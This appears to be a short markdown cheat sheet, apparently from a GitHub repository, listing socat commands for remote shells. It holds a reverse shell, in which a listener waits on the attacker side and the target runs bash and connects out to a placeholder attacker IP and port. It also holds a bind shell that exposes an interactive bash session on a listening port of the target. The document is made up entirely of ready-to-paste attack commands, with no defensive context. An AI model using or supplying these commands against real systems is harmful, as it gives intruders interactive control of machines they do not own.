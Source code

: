 # Socat

## Reverse Shell

- Shell handler (attacker)

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>
```

- Connect to attacker

`$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker_IP>:<attacker_PORT>`

## Bind Shell

- Target

`$ socat tcp-listen:<PORT>,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane`

- Shell handler

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```